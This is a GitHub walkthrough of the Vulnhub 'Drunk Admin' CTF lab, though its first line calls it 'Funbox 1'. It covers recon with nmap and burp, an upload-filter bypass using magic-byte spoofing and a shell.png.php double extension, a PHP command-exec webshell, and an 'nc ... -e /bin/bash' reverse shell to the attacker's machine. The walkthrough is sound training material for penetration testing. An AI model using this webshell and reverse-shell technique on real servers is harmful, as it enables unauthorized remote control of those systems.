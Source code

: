 # Vulnhub--Drunk_Admin--Markup
 This is a walkthrough on how to pwn the Funbox 1 machine which is available on vulnhub 


After installing and running the vulnbox make sure both of them are on the same network. Then perform an arp-scan to identify the vulnbox’s ip address. 
In our case it was 192.168.86.129. 

![arp](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/69b911ff-806e-4649-a98e-495994f72bfb)


Now let’s perform an NMAP scan on this using sudo nmap –sS 192.168.86.129 –p- 

![nmap](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/399a56f7-effa-4bb9-b8b0-af8c60ec9578)


This shows us two open ports, 22 for SSH and 8880 with TCP. Let’s access this ip address on port 8880 using a web browser. 
We get an image hosting homepage. 

![homepage](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/4c425529-18d1-4b0d-8cd8-ace8248ea8a7)

Let’s analyze this page, it doesn’t accept any non image extension. After uploading the image and observing the image path, it seems that the server is hashing the image name and hosting it on /image/md5(filename.jpg).jpg. This could be used to get an RCE.  

![you are naughty](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/aef5a7f3-4d43-4690-b318-e9b5b2e2ccff)

We can find some PHP details through enumerating myphp.php page. 
After brute forcing through burp suite, we can find some sensitive details at
1.	http://192.168.86.129:8880/myphp.php?id=108
2.	http://192.168.86.129:8880/myphp.php?id=104
3.	http://192.168.86.129:8880/myphp.php?id=101
4.	http://192.168.86.129:8880/myphp.php?id=132
5.	http://192.168.86.129:8880/myphp.php?id=116

108

![108](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/24866f09-3730-4a3c-ab64-edfdbef652cb)

104

![104](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/6f53fa5a-e738-401a-9255-426fee6cb126)

101

![101](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/d2523672-156f-40ee-a7c2-21861be02761)

132

![132](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/bc92058c-d0e3-4a5a-8c10-e0d45bc29f87)

116

![116](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/7bb40b18-73a0-4b06-9097-1a75621f3f6e)

Let’s try to bypass the file upload, we’ll use a combination of hex-spoofing as well as double-extension-attack.

We changed the first 8 bytes of the php file using hex-editor to match the same of a png file and we’ll save the file as shell.png.php. This gets accepted and gets uploaded to the server. 
![hexeditor](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/6aa9853f-9410-464a-8965-681cbc13a14c)

We can access this file by the method that we saw above, which is by appending /images/md5(image-name).ext.

Let’s try to upload a shell now. I tried multiple shells but I got the same message “Ohhh you are naughty!”. Then I uploaded a command injection php script (<?php echo exec($_REQUEST[‘ cmd’]) ?> and the page accepted it. Now we can run commands on this server using images/6a9e40c5321f777ee7f19071637e36ab?cmd={command}. 

Using this technique I ran the command nc my-ip-address port –e /bin/bash
![remoteshell](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/ea583c04-4798-4e9c-b80e-b60254170545)

Now I’ve got a remote shell on this server! Let’s upgrade out shell using python –c “import pty; pty.spawn(‘/bin/bash’)
![upgrade shell](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/3951fb1f-d02a-4691-94f6-caa9ccb8d44f)

After some snooping around I found a file named .proof which contained a secret code. TGglMUxecjJDSDclN1Ej this is a base64 encoded text so let’s decode it. After decoding we get Lh%1L^r2CH7%7Q#
![proof](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/a1b50996-4d77-4034-b0ad-24f950f4d5ae)

After snooping around further I found a user named bob that had a php file that could encrypt and decrypt a string. I moved the files to /var/www/html/images since we didn’t have any permissions. 
![dir](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/b2e1d9d8-a1f6-45cc-9f72-9bbf556ec7dc)


![enc page](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/00da96d6-d23f-434e-b788-83ebd39c8807)

![final message](https://github.com/omarMahmood05/Vulnhub--Drunk_Admin--Markup/assets/86721437/4f31593c-ded3-4d8a-8647-7131d10deef6)

Alice, prepare for a kinky night. Meet me at '35.517286' '24.017637'


